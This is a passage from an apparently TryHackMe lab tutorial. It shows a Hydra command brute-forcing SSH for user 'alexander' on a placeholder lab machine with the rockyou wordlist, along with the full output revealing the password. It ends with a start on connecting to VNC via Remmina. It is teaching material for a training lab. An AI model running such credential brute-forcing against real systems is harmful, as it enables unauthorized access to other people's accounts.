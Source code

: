 In the terminal window below, we use Hydra to find the password of the username `alexander` that allows access via SSH.

AttackBox Terminal

```shell-session
root@AttackBox# hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP -V
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-15 13:39:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://MACHINE_IP:22/
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "princess" - 6 of 14344399 [child 5] (0/0)
...
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "poohbear" - 111 of 14344402 [child 1] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "patrick" - 112 of 14344402 [child 2] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "iloveme" - 113 of 14344402 [child 6] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "sakura" - 114 of 14344402 [child 7] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "adrian" - 115 of 14344402 [child 15] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "alexander" - 116 of 14344402 [child 4] (0/3)
[22][ssh] host: MACHINE_IP   login: alexander   password: sakura
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-15 13:41:01
```

You can experiment by repeating the same command `hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP -V` on the AttackBox’s terminal. The password of the username `alexander` was found to be `sakura`, the 114th in the `rockyou.txt` password list. In TryHackMe tasks, we expect any attack to finish within less than five minutes; however, the attack would usually take longer in real-life scenarios. Options for verbosity or debugging can be helpful if you want Hydra to update you about its progress.

## Connecting to a VNC Server

Many clients can be used to connect to a VNC server. If you are connecting from the AttackBox, we recommend using Remmina. To start Remmina, from the Applications menu in the upper right, click on the Internet group to find Remmina.

![Remmina can be launched from the Internet group in the Applications menu.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/1729f676200d2e232474254d392dd8d1.png)  

If you get a dialog box to unlock your login keyring, click Cancel.
